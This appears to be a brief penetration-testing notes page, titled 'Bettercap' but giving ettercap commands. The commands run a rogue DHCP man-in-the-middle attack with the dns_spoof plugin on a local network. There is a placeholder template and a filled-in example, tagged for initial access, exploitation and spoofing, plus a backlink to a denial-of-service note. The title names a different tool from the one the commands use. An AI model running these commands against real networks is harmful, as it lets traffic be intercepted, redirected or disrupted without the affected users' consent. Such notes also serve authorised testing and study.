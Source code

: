 # Bettercap

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #bettercap

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:<IP_pool>/<subnet_mask>/<rouge_dns_server_IP>

$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:192.168.0.20-25/255.255.255.0/8.8.8.8
```

---
## References

### Backlinks

- [[Denial of Service|Denial of Service: DHCP]]